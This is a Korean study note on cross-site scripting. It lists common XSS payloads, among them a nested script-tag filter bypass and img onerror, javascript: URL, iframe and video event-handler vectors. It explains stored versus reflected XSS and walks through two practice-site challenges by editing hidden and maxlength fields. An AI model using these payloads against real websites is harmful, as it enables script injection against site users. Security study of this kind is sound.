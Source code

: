 ## XSS에 이용되는 대표적인 태그 5가지

1. 가장 기본적인 태그 : \<script\>\</script\><br>
    1-1 script 태그를 일차적으로 필터링하는 것을 우회하는 법 : <scr<script>ipt>alert("xss");</scr</script>ipt>
2. HTML 태그1 이미지 태그 : \<img\><br>
    2-1 예제 : \<img src="x" onerror=alert(1)\><br>
        예제2 : \<img src="javascript:alert(1)"\>
3. HTML 태그2 하이퍼링크 태그 : \<a\>\</a\><br>
    3-1 예제 : \<a href="javascript:alert(1)"\>xss\</a\><br>
        예제2 : \<a onmouseover=alert(1)\>xss\</a\>
4. HTML 태그3 iframe 태그 : <iframe></iframe><br>
4-1 예제 : <iframe src="javascript:alert(1)" width="0" height="0"></iframe>
5. HTML 태그4 video 태그 : \<video\>\</video\><br>
5-1 예제 : \<video oncanplay=alert(1)\>\<source src="validvideo.mp4" type="video/mp4"\>\</video\>
  
## How to work out XSS
   간단하게 말해 사용자의 입력값을 웹 페이지에서 보여줄 수 있을 때 발생한다.<br>그 방법이 서버에 저장되었다가 사용자의 요청이 들어왔을 때 해당 입력값을 reply해주면 stored-xss인거고, 
  사용자의 입력에 대해서 바로 reply하면 reflected-xss인 것이다. Reflected-xss는 보통 악성 URL을 통해 시작된다. Reflected-xss는 사용자가 요청한 데이터에 악성 스크립트를 더해 reply하기 때문에 사회공학적 기법을 섞어 데이터를 요청하도록 유도해야한다.
  
## XSS Challenge 4번(http://xss-quiz.int21h.jp/)
사실 이 challenge에는 크나큰 버그가 존재한다. 그건 바로 console에서 alert시키면 문제가 통과된다는 점이다ㅋㅋ 암튼 제대로 풀어보자<br><br>
  ![image](https://user-images.githubusercontent.com/92368528/137503031-58721564-9237-4e18-95c6-1d36bcaf8581.png)<br>
  3번과 같은 방법으로는 안풀린다.<br>
  힌트를 살짝 보니 보이지 않는 field가 있어서 페이지 소스를 보니 p3이 있었다. 그래서 hidden을 살짝 지우고 해당 값에 XSS 공격을 하니 성공했다.<br>
  ![image](https://user-images.githubusercontent.com/92368528/137504117-65af926f-9955-4086-9f30-eb5af67fa03f.png)<br>
  
  ## XSS Challenge 5번(http://xss-quiz.int21h.jp/)
![image](https://user-images.githubusercontent.com/92368528/137504626-46f2cb58-1d15-4864-8a7e-04359ebcc0dd.png)<br>
 p1에 maxlength가 15인데 우리가 공격할 구문은 \<script\>alert(document.domain);\</script\> 으로 40자이다. maxlength를 건드리거나, 공격구문을 간소화시켜 XSS를 성공시켜보자. <br>
  ![image](https://user-images.githubusercontent.com/92368528/137504980-25e6b04f-3e1c-4de6-9f71-7699fe7f1a81.png)<br>
 maxlength를 지우고 XSS 공격을 하였더니 성공하였다.<br><br>
  
왠지 소스 안건들이고 풀 수도 있을거 같은데, 소스를 안건들이고 4, 5번은 풀 수 있나 추후에 고민해봐야겠다.


